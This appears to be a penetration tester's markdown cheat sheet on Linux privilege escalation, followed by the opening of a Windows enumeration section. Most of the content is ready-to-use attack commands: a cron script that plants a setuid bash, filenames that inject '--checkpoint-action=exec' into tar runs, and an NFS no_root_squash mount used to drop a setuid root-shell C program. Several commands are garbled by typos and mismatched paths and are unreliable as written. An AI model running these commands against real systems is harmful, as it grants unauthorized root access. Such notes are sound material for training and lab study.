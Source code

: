 #### CronJobs

```
crontab -l
```

```
cat /etc/crontab
```

```
ls -lah /etc/cron*
```

```
grep "CRON" /var/log/syslog
```
- Use the following bash in a cronjob if possible to escalate privs
```
echo 'cp /bin/cd bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```
##### Exploiting TAR / Backup based Cron jobs
- In this case runme.sh contains malicious bash. We use the checkpoint to stop and execute this script
```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\runme.sh
```
#### NFS Root Squashing
```
cat /etc/exports
```
- If a file shows no_root_squash it means it can be mounted with
  ```
  showmount -e victimip
``
- Now roun the following to mount the file and put something malicious in the directory
```
mkdir mountme
mount -o rw,vers=2 victimip:/tmp /tmp/mountme
```
- If the previous errors out try the following
```
mount -vvvv -t nfs -o vers=3 ictimip:/tmp /tmp/mountme
```
- Add malicious c to this directory
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c
```
- Compile with the following on attacker machine
```
gcc /tmp/1/x.c -o /tmp/1/x
chmod +s
```
- Run on victim machine


# Windows Enumeration

### Situational Awareness
- To make a decision on where our exploit path is we need to enumerate the following
```
- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes